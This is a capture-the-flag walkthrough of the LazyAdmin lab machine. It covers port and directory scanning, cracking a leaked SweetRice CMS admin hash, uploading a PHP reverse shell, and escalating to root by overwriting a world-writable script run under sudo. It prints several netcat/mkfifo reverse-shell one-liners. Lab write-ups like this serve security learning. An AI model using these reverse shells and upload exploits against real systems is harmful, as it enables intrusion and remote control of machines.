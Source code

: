 # LazyAdmin

## 1. Enumeration + Exploration

### 1.1. Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.249.26
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 02:40 EDT
Nmap scan report for 10.10.249.26
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.08 seconds
```

Noting too out of the blue here. Let's go to the gobsuter scans for Web Enumeration.

### 1.2. Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/content              (Status: 301) [Size: 314] [--> http://10.10.249.26/content/]

```

Ah. Going to that page, we see the below.

![Content page, SweetRice CMS](https://i.imgur.com/Y3JQljF.png)

Let's enumerate the `/content/` directory in parallel.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/images               (Status: 301) [Size: 321] [--> http://10.10.249.26/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.249.26/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.249.26/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.249.26/content/attachment/]
```

This gives us a lot to explore. 

### 1.3. Web Exploration
We see the version of the sowftware being used.

![SweetRice CMS version](https://i.imgur.com/tI4jMIH.png)

We also see some backup files as below.

![MySQL backup directory](https://i.imgur.com/H8DcAho.png)

```
┌──(kali㉿kali)-[/tmp]
└─$ cat mysql_bakup_20191129023059-1.5.1.sql 
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (

{some more info}

) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES( {...} "admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44c****\\
  
  {some more information here}
  
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>   
```
### 1.4. Hash Cracking
We get the hash, and we can now use an online tool like CrackStation 

![](https://i.imgur.com/PR00S0g.png)

`42f749ade7f9e195bf475f37a44****: ***********`

And voila! We have the creds. The username is also mentioned closely ;)

Now what?

### 1.5. More Web Exploration
There's one link that we missed out on before.

Let's go to: `/content/as/`

![](https://i.imgur.com/KhaWHVq.png)

Using the credentials as found before, we are in!


### 1.6. Admin Page
![Admin page of SweetRice](https://i.imgur.com/QDWO8I3.png)

![Details and Settings of SweetRice](https://i.imgur.com/ebre2uF.png)

I also found more credentials lying around. These may become important later on.

![Important Database Credentials](https://i.imgur.com/fR3h7hE.png)


Since we have the version and the credentials in hand, I found one epxloit which looks pretty tasty.

[SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716)

Now, we attempt the foothold.

## 2. Foothold

We enter the initial creds found, which we used for logging in.

Also, use [RevShells](https://revshells.com/) to get the `PHP PentestMonkey` shell. 

![SweetRice Exploit](https://i.imgur.com/F0Jryka.png)

NOTE: `.php` did not work. It does not show in the uploads. Renaming it to `.php5` worked.

Also, start up netcat on the selected port, and go to the url given.

![SweetRice Exploit Working](https://i.imgur.com/VIJcmtD.png)


![Getting a shell with the exploit](https://i.imgur.com/SUECOzF.png)

\*in deep hacker voice\* I am in!

## 3. PrivEsc

We so a bit of exploration and we get some more creds. These are the same as what we saw before.
```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:**********
```

Check sudo permissions.

```
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

Okay backup scripts are usually interesting. Let's see.

```
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

What about the permissions?

```
www-data@THM-Chal:/home/itguy$ ls -la | grep backup
ls -la | grep backup
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

We can't edit it. It runs another script named `/etc/copy.sh`. Let's check that out.

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

OOF looks like a reverse shell. Can we edit it though?

```
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Uh ... its owned by root.

All hope lost? Well, check the permissions XD

Using [RevShells](https://www.revshells.com/), we ge the command,

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1337 >/tmp/f`

I tried using nano, but it did not work. No vim either. So, we do `echo` :P

`www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1234 >/tmp/f" > copy.sh`

Execute it as,

`www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl`

While having a listener setup using netcat. Remember: It needs to be on another port - because we are already using one we connected to before.

![Getting the reverse shell with root permissions](https://i.imgur.com/NnasIBg.png)

And ... we are done!
